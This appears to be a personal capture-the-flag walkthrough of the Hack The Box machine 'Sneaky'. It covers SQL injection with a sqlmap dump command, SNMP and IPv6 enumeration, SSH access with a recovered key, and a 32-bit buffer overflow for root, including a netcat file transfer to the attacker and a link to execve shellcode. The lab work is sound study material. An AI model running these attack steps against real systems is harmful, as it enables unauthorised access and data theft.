 # Sneaky Walkthrough
Name: Sneaky
Date:  19/10/2022
Difficulty: Medium 
Goals: OSCP revision, BoF, learn about IPv6 with Ippsec - do the intended way.
Learnt: 
- IPv6
- Modern system dont like RSA
- Dont get carried away with gef... and better shell locating!
- More gdb revision 

 ## Resources:
[0xdf](https://0xdf.gitlab.io/2021/03/02/htb-sneaky.html)
[Ippsec](https://www.youtube.com/watch?v=1UGxjqTnuyo)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)
	
## Exploit

The site is vulnerable to SQL injection a subject that I am familiar with, but I have not done I much as want to.

![sqli](Screenshots/sqlsuccess.png)
![devlogin](Screenshots/adminlogin.png)

Ran sqlmap with:
```bash
sqlmap -r sqlmapwhileippsectalksipv6 -p pass --dbms mysql --level 4 --risk 3 --dump
```

While Ippsec talks IPv6 

![sqlmap](Screenshots/sqlmapsuccess.png)
`sup3rstr0ngp4ssf0r4d`

Check out IPv6 Defined in Archive!

Basically there is unintended way to do this machine using IPv6 using that id\_rsa with the external HackTheBox network of the machine.

...Intended way, do your UDP nmap scans!
While I waited for my UDP scans to run I tried some SNMP recon.
```bash
onesixtyone 10.129.1.179 public
Scanning 1 hosts, 1 communities
10.129.1.179 [public] Linux Sneaky 4.4.0-75-generic #96~14.04.1-Ubuntu SMP Thu Apr 20 11:06:56 UTC 2017 i686
```
You could also stalk the creator of the CTF who made a [IPv6 enumeration tool](https://github.com/trickster0/Enyx/blob/master/enyx.py) or you could just:
```bash
cat snmpwalk-output | grep iso.3.6.1.2.1.4.34.1.3.2.16|cut -d "." -f 13-28 | cut -d " " -f 1
# Output will be in the format by line 
# Loopback
# Link-Local
# Unique-Local
cat -n snmpbulkoutput | grep "inetCidrRouteIfIndex.ipv6"
```
dead:beef:0000:0000:0250:56ff:fe96:5f7a
Another alternative is to setup a VM or snapshot for python2, given the hell hole of being in 2022 and trying to convert is difficult, time consuming and sort of pointless. 

![](enyx.png)

```bash
ssh -i id_rsa thrasivoulos@dead:beef:0000:0000:0250:56ff:fe96:14cc
```

RSA support for ssh is not supported anymore the fix **WHICH IS REALLY DANGEROUS REVERT ASAP REGARDLESS** is:
```bash
echo "    PubkeyAcceptedKeyTypes +ssh-rsa" | sudo tee -a /etc/ssh/ssh_config

```

![](fixingit.png)

## Foothold

The feeling..

## PrivEsc

For the buffer overflow hadnholding I have wanted for some time!
```
/usr/local/bin/chal
# Tranfer it to cheksec on it
# Attack
nc -lvnp 8080 > chal.b64
# Sneaky
base64 /usr/local/bin/chal | nc $ip 8080
# Attack
base64 -d chal.b64 > chal
```
   
![900](checksec.png)   

Enumerate Offset 

![](firstsegfault.png)

`0x316d4130`

```bash
msf-pattern_offset -q $0xaddress
362
```

Also gef is great.
```bash
x/100x $esp
x/500x $esp # I found useful in finding a better shellcode location
```

![](gefisgreat.png)

For the shellcode:  https://packetstormsecurity.com/files/115010/Linux-x86-execve-bin-sh-Shellcode.html. After remembering the wonderous differences of 32 bit and 64 bit machines. Some gbd reacquaintance:

![](root.png)